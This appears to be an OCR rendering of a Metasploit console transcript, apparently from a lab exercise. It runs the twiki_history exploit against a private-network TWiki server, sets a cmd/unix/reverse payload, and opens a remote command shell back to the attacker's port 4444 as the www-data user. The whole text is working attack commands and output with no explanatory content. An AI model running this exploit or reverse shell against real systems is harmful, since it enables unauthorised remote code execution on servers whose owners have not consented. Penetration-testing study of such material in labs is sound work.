 ``` plain
msf > use exploit/unix/webapp/twiki_history
msf exploit(twiki_history) > show options

Module options (exploit/unix/webapp/twiki_history):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        Use a proxy chain
   RHOST                     yes       The target address
   RPORT    80               yes       The target port
   URI      /twiki/bin       yes       TWiki bin directory path
   VHOST                     no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit(twiki_history) > set RHOST 192.168.127.154
RHOST => 192.168.127.154
msf exploit(twiki_history) > set payload cmd/unix/reverse 
payload => cmd/unix/reverse
msf exploit(twiki_history) > exploit

[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo ZeiYbclsufvu4LGM;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Successfully sent exploit request
[*] Reading from socket B
[*] B: "ZeiYbclsufvu4LGM\r\n"
[*] Matching...
[*] A is input...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo D0Yvs2n6TnTUDmPF;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Command shell session 2 opened (192.168.127.159:4444 -> 192.168.127.154:54381) at 2014-06-08 17:31:48 +0300
[*] Reading from socket B
[*] B: "D0Yvs2n6TnTUDmPF\r\n"
[*] Matching...
[*] A is input...

whoami
www-data
```
